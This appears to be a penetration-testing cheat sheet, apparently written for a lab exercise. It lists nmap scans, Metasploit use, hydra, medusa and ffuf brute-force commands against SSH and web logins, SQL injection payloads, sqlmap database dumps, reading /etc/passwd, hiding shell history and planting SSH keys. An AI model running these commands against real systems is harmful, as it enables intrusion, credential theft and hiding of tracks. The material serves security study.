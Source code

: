 # Tools in detail

## nmap

- all in one
	- `nmap 10.0.33.0/24 -T5 -p- -sS -sV -O -Pn`
- scanning multiple IP blocks
	- `nmap 10.0.33.0/24 10.0.66.0/24 -T5`
- scanning running software and version numbers
	- `nmap 10.0.33.0/24 -p- -sV -sS -Pn`
- scanning OS on host
	- `nmap 10.0.33.0/24 -p- -O`
- resolve hostnames
	- `host 10.0.33.50`
- HTTPS certificate info
	- `nmap -sC -A web.org2`
- discover publicly accessible directories at web servers
	- `nmap --script=http-enum web.org1 web.org2`
	- `dirb https://web.org2`
- main arguments
	- `10.0.33.0/24` target subnet to scan
	- `-T` is the timing speed of the scan
	- `-p-` scan all ports
	- `-sS` include TCP SYN scan
	- `-sV` application version scan
	- `-O` OS detection
	- `-Pn` skip ping test and just discover every target host provided (not neccessary after discovering the hosts for the first time)
	- `--script=vuln` scan for vulnerabilities
- other arguments
	- `-sU` include UDP scan (don't use - extremely slow)
	- `-A` enable OS detection, script scannning, traceroute
	- `-sC` default scripts scan (intrusive!)
	- `--script ssl-cert` specific script scan
	- `-F` scan only the 100 most common ports in each protocol
	- `-oG output.txt` grepable output to file
	- `-v`, `-vv` increase verbosity and print out more info

## linpeas

- shows potential vulnerabilities on host

```sh
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh
```

## dirb

- scan web content

```sh
dirb https://web.org2
```

## Metasploit
- run console
	- `msfconsole`
- arguments
	- `?`, `help`
	- `search`
	- `info`
	- `use`
	- `set RHOST 10.0.33.100`
	- `run`
	- `show options`
	- `exploit -j` for creating session
- install metasploit on jumphost

```sh
sudo apt install -y gpg && \
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
```

## medusa

```sh
medusa -t 4 -b -h <HOST> -u <USERNAME> -P <WORDLIST> -M ssh
```

## hydra

- wordlist guessing
```sh
hydra -l <USERNAME> -P <WORDLIST> ssh:<HOST>
```

- web forms guessing
```sh
hydra -l admin -P wordlist.txt 'http-get-form://10.0.0.10:80/vulnerabilities/brute:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect'
```

- brute forcing an access key
```sh
hydra -t 1 -f -l something -P wordlist.txt "http-post-form://10.0.44.55:80/customers/restricted_access.php:access_key=^PASS^:H=Cookie: PHPSESSID=$PHPSESSID:F=Access Denied"
```

## john 

```sh
john --format=<FORMAT> <PASSWORD-HASHES>
```

### wfuzz

```sh
wfuzz -z file,wordlist.txt 'http://10.0.0.10:80/vulnerabilities/brute/?username=admin&password=FUZZ&Login=Login'
```
- filter out incorrect responses
	- `--hs 'Username and/or password incorrect'` 
- filter out successful responses
	- `--ss "Welcome to the password protected area"`

### ffuf

```sh
ffuf -w wordlist.txt -u 'http://10.0.0.10:80/vulnerabilities/brute/?username=admin&password=FUZZ&Login=Login' -fr 'Username and/or password incorrect'
```
- arguments
	- `-fr` excludes the responses matching the regex
	- `-mr` for successful message

## SQL injection

- get all (applicable when there is a WHERE clause)
```txt
' OR 1=1 #
```
- return other data
```txt
UNION SELECT user, password FROM users #
```

## sqlmap

- list all tables in db
```sh
sqlmap -u 'http://10.0.44.55/customers/home.php?user=1' --cookie="PHPSESSID=$PHPSESSID" --batch -D sqlitraining --tables
```

- dump all data from table
```sh
sqlmap -u 'http://10.0.44.55/customers/home.php?user=1' --cookie="PHPSESSID=$PHPSESSID" --batch -D sqlitraining -T users --dump
```

- run SQL command
```sh
sqlmap -u 'http://10.0.44.55/customers/home.php?user=1' --cookie="PHPSESSID=$PHPSESSID" --batch --sql-query 'VERSION()'
```

## lynx

- allows you to view HTML in terminal as text
```sh
curl $URL | lynx -nolist -dump -stdin
```

## ssh keys

- generate new ssh key pair
```sh
ssh-keygen -t ed25519 -C "email@example.com"
```
- copy over to target host
```sh
~/.ssh/authorized_keys
```

## shell commands

- list all users on the host that have login shells
```sh
grep /bin/bash /etc/passwd
```

- ignore history
```sh
HISTCONTROL=ignorespace
```

- filter out strings by length
```sh
awk 'length($0) == 10' /usr/share/wordlists/sqlmap.txt > wordlist.txt
```

- compute hash of password
```sh
echo -n 'u7Lp#Kz9#Jh=82Qr' | md5sum
```

- cat multiline string to file
```sh
cat << 'EOF' > info.php
<?php phpinfo(); ?>
EOF
```

- download from google drive
```sh
curl -L "https://drive.usercontent.google.com/uc?id=1b4d0ES3GvMP1ksgxhLZACiu0WraybOd3&authuser=0&export=download" -o countdown.png
```

## python scripts

- generate wordlists

## curl

- `--cookie "key1=val1;key2=val2"` sets cookies
- `-H "Cookie: PHPSESSID=$PHPSESSID"` does the same